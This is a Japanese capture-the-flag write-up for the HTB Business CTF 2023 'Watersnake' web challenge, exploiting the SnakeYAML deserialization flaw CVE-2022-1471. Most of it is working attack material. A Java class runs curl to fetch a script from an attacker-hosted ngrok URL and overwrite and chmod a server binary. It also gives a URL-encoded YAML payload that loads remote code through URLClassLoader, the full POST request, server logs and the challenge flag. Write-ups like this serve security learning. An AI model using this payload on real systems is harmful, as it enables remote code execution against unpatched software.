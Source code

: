 ```yaml
---
layout: post
title: "[Web] Watersnake (300 pts, 276 solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Web_Watersnake
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## Solution
問題のサーバで動作している"snake YAML"には脆弱性(CVE-2022-1471)があるため、それを悪用する。

参考URL: https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

まずは、以下のURLからエクスプロイトを入手する。

URL:　https://github.com/1fabunicorn/SnakeYAML-CVE-2022-1471-POC/blob/main/src/main/java/org/example/exploit.java

"AwesomeScriptEngineFactory.java" を以下のコードに修正する。このコードにより、サーバの機能の一部であるセンサーの実行ファイル(/app/watersensor)を、攻撃者のホストするシェルスクリプトで置き換えることができる。

なお、攻撃者のサーバはngrokを使用してホストした。

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            //Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app/exploit.sh -o /app/watersensor");
            Runtime.getRuntime().exec("chmod 777 /app/watersensor");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

コンパイルしてclassファイルを生成する。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ javac artsploit/AwesomeScriptEngineFactory.java; ll artsploit/AwesomeScriptEngineFactory.*
-rwxr-xr-x 1 kali kali 1733 Jul 16 00:43 artsploit/AwesomeScriptEngineFactory.class
-rwxr-xr-x 1 kali kali 1707 Jul 16 00:43 artsploit/AwesomeScriptEngineFactory.java
```

次にホストするシェルスクリプトを用意する。中身は単純に"/flag.txt"をcatで読み込むだけのもの。


- exploit.sh

```sh
#!/bin/sh
cat /flag.txt
```

配置する場所は、コンパイルしたclassファイルがある場所と同じところにする。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ cat exploit.sh
#!/bin/sh
cat /flag.txt 
```

classファイルとシェルスクリプトがあるフォルダをルートとしてWebサーバをホストする。

```
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ python3 -m http.server 80
```

別のシェルでngrokを起動する。

```sh

┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/web/Watersnake]
└─$ ngrok http 80
ngrok                                                                                                                                                    (Ctrl+C to quit)

🤯 Try the ngrok Kubernetes Ingress Controller: https://ngrok.com/s/k8s-ingress

Session Status                online
Account                       0x005ada15 (Plan: Free)
Version                       3.0.6
Region                        Japan (jp)
Latency                       5ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app -> http://localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              29      0       0.00    0.01    0.01    0.02
```

生成されたngrokのURLを使い、ペイロードを作成する。

元のペイロード: `some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://8128-2404-7a80-93e0-6800-5054-ff-fe4e-76fc.ngrok-free.app/"]]]]`

URLエンコードしたペイロード: `some%5Fvar%3A%20%21%21javax%2Escript%2EScriptEngineManager%20%5B%21%21java%2Enet%2EURLClassLoader%20%5B%5B%21%21java%2Enet%2EURL%20%5B%22https%3A%2F%2F8128%2D2404%2D7a80%2D93e0%2D6800%2D5054%2Dff%2Dfe4e%2D76fc%2Engrok%2Dfree%2Eapp%2F%22%5D%5D%5D%5D`

URLエンコードしたペイロードを/updateにPOSTする

```
POST /update HTTP/1.1
Host: 83.136.255.177:59601
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

config=some%5Fvar%3A%20%21%21javax%2Escript%2EScriptEngineManager%20%5B%21%21java%2Enet%2EURLClassLoader%20%5B%5B%21%21java%2Enet%2EURL%20%5B%22https%3A%2F%2F8128%2D2404%2D7a80%2D93e0%2D6800%2D5054%2Dff%2Dfe4e%2D76fc%2Engrok%2Dfree%2Eapp%2F%22%5D%5D%5D%5D
```

ngrokを経由して、ホストしたWebサーバにアクセスがくる。
そして、exploit.shが実行される。

```sh
┌──(kali㉿kali)-[/ctf/…/web/Watersnake/yaml-payload/src]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [16/Jul/2023 00:43:58] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:58] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:59] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
127.0.0.1 - - [16/Jul/2023 00:43:59] "GET /exploit.sh HTTP/1.1" 200 -
```

/stats にアクセスすると、書き換えられた"/app/watersensor"が実行され、フラグが表示される。

Flag: `HTB{r1d3_th3_sn4k3}`